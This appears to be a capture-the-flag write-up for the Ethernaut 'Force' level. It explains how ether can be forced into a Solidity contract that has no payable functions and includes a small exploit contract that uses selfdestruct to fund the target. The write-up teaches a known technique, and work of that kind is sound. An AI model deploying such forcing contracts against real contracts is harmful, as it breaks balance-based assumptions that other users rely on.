 # Force

The goal of this level is to make the balance of the contract greater than zero.

## Code Breakdown

[The Smart Contract's Code can be seen here.](Force.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
This contract has no actual code, and since there is no `fallback()` nor `receive()` function or any `payable` function, it is not possible to send ether to that contract. Or is it?

## Level Completion

Actually there are other few ways to force ether into a contract:
* `selfdestruct()`: the selfdestruct function allows a contract to remove itself from the blockchain, sending all remaining stored in it to a designated address.
* Predestination : Ether can be sent to the contract before it exists (since a contract address is deterministic. It’s is the rightmost 160 bits of the keccak256 hash of an RLP encoding of the Sender’s address and their tx nonce) it can be known ahead of creation. [learn more](https://ethereum.stackexchange.com/a/761)
* POS rewards: Validators can choose where their issued rewards are sent,this issuance can't be refused by contracts.

Here the first method is the most applicable for us, let's create a smart contract to selfdestruct and then send eth to to `Force` contract:
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

contract forceHack {
    // we make the constructor payable so we can fund the contract with wei when deploying
    constructor () payable{

    }
    // we will give this function Force's contract address when executing it
    function hack(address payable _to) public payable{
        selfdestruct(_to); // selfdestructs the contract and send the remaining ether to Force's contract
    }
}
```
After deploying this contract with any value of wei and executing the `hack` function, `Force` should be funded.